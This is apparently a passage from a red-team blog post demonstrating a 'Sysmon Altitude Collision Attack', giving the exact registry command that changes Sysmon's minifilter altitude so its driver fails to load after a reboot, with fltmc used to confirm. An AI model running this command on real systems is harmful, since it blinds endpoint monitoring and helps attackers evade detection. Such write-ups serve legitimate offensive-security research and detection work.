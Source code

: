 2 minor drawbacks of this method is that it leaves and error log for loading the kernel driver and the second that it requires a reboot to make it effective. 


<a name="demo-showcasing-sysmon-altitude-collision-attack"></a>
#### Demo showcasing Sysmon Altitude Collision Attack

Let us target the **WDFilter - \\Device\\Mup** Minidriver and change Sysmon's Altitude to its Altitude Number.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Bypassing%20ETW%20Sysmon%20EventLog%20Cmdline/Images/Pasted%20image%2020221107151850.png)

Change Sysmon Altitude using registry: **reg add "HKLM\\SYSTEM\\CurrentControlSet\\Services\\Sysmondrv\\Instances\\Sysmon Instance" /v Altitude /t REG_SZ /d 328010 /f**

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Bypassing%20ETW%20Sysmon%20EventLog%20Cmdline/Images/Pasted%20image%2020221107152119.png)

To make this effective reboot the machine. Verify Sysmons existence using **fltmc instances** to find no Sysmon Minidriver:

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Bypassing%20ETW%20Sysmon%20EventLog%20Cmdline/Images/Pasted%20image%2020221107152330.png)
